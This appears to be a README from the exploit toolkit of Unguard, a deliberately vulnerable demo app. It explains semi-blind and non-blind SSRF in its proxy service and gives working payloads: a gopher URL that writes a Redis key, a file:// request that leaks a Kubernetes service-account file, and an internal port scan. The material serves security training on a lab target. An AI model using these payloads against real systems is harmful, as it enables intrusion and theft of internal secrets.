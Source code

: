 # Server-side Request Forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to induce the server-side 
application to make requests to an unintended location.

Unguard has a semi-blind and a non-blind SSRF vulnerability in the proxy-service.

**Semi-blind SSRF**

When posting URLs using the URL posting feature, the proxy service will access the given URL unconditionally, so even
if a local URL is given (e.g. `http://localhost/`). Metadata like title/preview image of the accessed URL will be 
displayed in Unguard.

**Non-blind SSRF**

When posting images via URL, Unguard will fetch the given URL and display it as a base64 encoded image, regardless if
the given URL was pointing to a valid image. This can be used to leak internal resources, including files.

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up


## Exploitation

To exploit the non-blind SSRF, put a valid curl URL into the image posting text field and post it.

### w/o Toolkit CLI

If you are not interested in the result of the query, simply posting an image URL will result in the server fetching
your supplied URL, regardless of protocol or if it is a local IP that was specified.

This example URL sets a redis key using the gopher protocol:
* `gopher://unguard-redis:6379/_SET%20hacked%20yes`

![ssrf-set-redis-key](./images/ssrf-set-redis-key.png)

Using the Redis CLI on the Redis pod, we can verify that the key gets set:

![ssrf-set-redis-key-result](./images/ssrf-set-redis-key-result.png)

### With Toolkit CLI 

Using the CLI, you can access arbitrary URLs from the internal proxy-service and get their contents.
Make sure to use `ug-exploit login` first, as you need to be logged in to post content.

#### Examples

Using [HTTPbin](https://httpbin.org/#/Request_inspection) to inspect the request headers:

```shell
$ ug-exploit ssrf --target unguard.kube --url https://httpbin.org/headers
```

Leaking a Kubernetes internal file:

```shell
$ ug-exploit ssrf --target unguard.kube --url file:///var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

Doing an internal port scan also abuses SSRF to figure out which services are running on other internal components that
are accessible from the proxy-service:

```shell
$ ug-exploit portscan --ports 80-90 --host unguard-ad-service --target unguard.kube
Accessing unguard-ad-service on port range (80, 90)
[*] unguard-ad-service on port 80 is open
[*] unguard-ad-service on port 81 seems closed
[*] unguard-ad-service on port 82 seems closed
...
```

Run `ug-exploit ssrf --help` for more information.

## Further Details

* [SSRF Explained (Portswigger)](https://portswigger.net/web-security/ssrf)
* [Combine SSRF with CRLF injection to execute arbitrary Redis commands](../crlf-injection/README.md)
